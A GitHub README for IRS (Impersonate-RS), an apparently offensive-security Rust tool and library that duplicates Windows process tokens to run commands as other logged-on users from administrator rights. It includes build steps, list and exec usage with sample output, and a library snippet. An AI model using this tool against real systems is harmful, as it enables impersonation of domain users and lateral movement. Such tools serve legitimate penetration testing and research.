 # IRS (Impersonate-RS)

> 💡 IRS is a library version of [https://github.com/zblurx/impersonate-rs](https://github.com/zblurx/impersonate-rs), [zblurx](https://twitter.com/_zblurx)

Reimplementation of [Defte](https://twitter.com/Defte_) [Impersonate](https://github.com/sensepost/impersonate) in plain Rust. For more informations about it, see this [blogpost](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/).

The token impersonation approach is a bit different from Defte Impersonate : here you have to select a PID where you want to impersonate the Primary Token, then `irs.exe` will:
1. Duplicate the token
2. Spawn a named pipe
3. Execute the command with the targeted token through `CreateProcessWithTokenW` and output the result to the named pipe
4. Collect the command output from the named pipe
5. Print the command output

This approach will allow you to impersonate any user on the target computer as long as you have administrator privileges (No NT SYSTEM needed) and is usable with and without GUI. Note that some command won't work without GUI (ex: `whoami`) due to session issues.

## Summary

- [Build](#build)
- [Usage](#usage)
    - [List process to impersonate](#list)
    - [Exec command](#exec)
    - [Library example](#library)
- [Demo](#demo)

## Build

```bash
# Build it from docker
git clone https://github.com/zblurx/impersonate-rs
cd impersonate-rs
make release

# Or from cargo in your host
make windows

# Build documentation
cargo doc --open --no-deps

# More information
make help
```

## Usage

Like a static binary :

```cmd
X:\>irs.exe --help
IRS (Impersonate-RS) It's a windows token impersonation tool written in Rust. zblurx <https://twitter.com/_zblurx>

Usage: irs.exe <COMMAND>

Commands:
  list  List all process PID available to impersonate Tokens
  exec  Execute command line from impersonate PID
  help  Print this message or the help of the given subcommand(s)

Options:
  -h, --help  Print help
```

```bash
X:\>irs.exe exec --help
Execute command line from impersonate PID

Usage: irs.exe exec [OPTIONS] --pid <pid> --command <command>

Options:
  -p, --pid <pid>          PID to impersonate
  -c, --command <command>  Command to execute
  -v...                    Set the level of verbosity
  -h, --help               Print help
```

### `list`

The `list` command list processes, with their session id, token type and associated user.
```bash
X:\>irs.exe list
                  
[winlogon.exe                    ] [PROCESS: 624  ] [SESSION: 1 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[lsass.exe                       ] [PROCESS: 672  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 780  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[fontdrvhost.exe                 ] [PROCESS: 788  ] [SESSION: 0 ] [TYPE: Primary] [Low   ] [USER: Font Driver Host\UMFD-0     ]
[fontdrvhost.exe                 ] [PROCESS: 796  ] [SESSION: 1 ] [TYPE: Primary] [Low   ] [USER: Font Driver Host\UMFD-1     ]
[svchost.exe                     ] [PROCESS: 888  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE RÉSEAU  ]
[svchost.exe                     ] [PROCESS: 948  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[dwm.exe                         ] [PROCESS: 412  ] [SESSION: 1 ] [TYPE: Primary] [System] [USER: Window Manager\DWM-1        ]
[svchost.exe                     ] [PROCESS: 460  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 696  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
(...)
[svchost.exe                     ] [PROCESS: 836  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 908  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1060 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1088 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1124 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 1176 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
```

### `exec`

The `exec` command open the target process id in the `pid` argument, duplicate its token and execute a command with the new token.

```cmd
X:\>whoami
adcs1\administrator

X:\>irs.exe exec --pid 5540 --command whoami
waza\e.cartman

X:\>irs.exe exec -p 5540 -c whoami
waza\e.cartman 
```

### `library`

Or directly on your **Rust** project like:

```Cargo.toml```:

```bash
[dependencies]
irs = { path = "/data/02-GIT/github/impersonate-rs/", version = "0.2.1" }
```

Or with github repo:

```bash
[dependencies]
irs = { git = "https://github.com/g0h4n/impersonate-rs", version = "0.2.1" }
```

```main.rs```:

```rust
use irs::utils::*;

fn main() {
    impersonate::se_priv_enable().expect("[!] Failed to run se_priv_enable()");
    token::enum_token().expect("[!] Failed to run enum_token()");
}
```

To see all the available functions use the following command to open the **Rust documentation**.

```bash
cargo doc --open --no-deps
```

## Demo

![](./img/demo.gif)

## Contributors

Many thanks to [g0h4n](https://twitter.com/g0h4n_0) for his contribution to the repo (made it a library, added color, clean up the code, ect.)